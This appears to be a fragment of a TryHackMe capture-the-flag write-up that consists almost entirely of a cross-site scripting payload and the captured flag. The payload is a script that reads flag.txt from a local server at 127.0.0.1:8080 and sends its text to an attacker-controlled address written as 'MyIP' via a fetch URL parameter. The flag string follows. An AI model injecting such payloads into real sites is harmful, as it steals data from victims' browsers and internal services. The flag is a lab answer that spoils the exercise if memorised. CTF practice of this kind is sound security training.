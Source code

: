 xss payload:
<script>
fetch('http://127.0.0.1:8080/flag.txt')
.then(response => response.text())
.then(text => {
  fetch("http://MyIP:8080/?data=" + text);
});
</script>

flag >> THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D
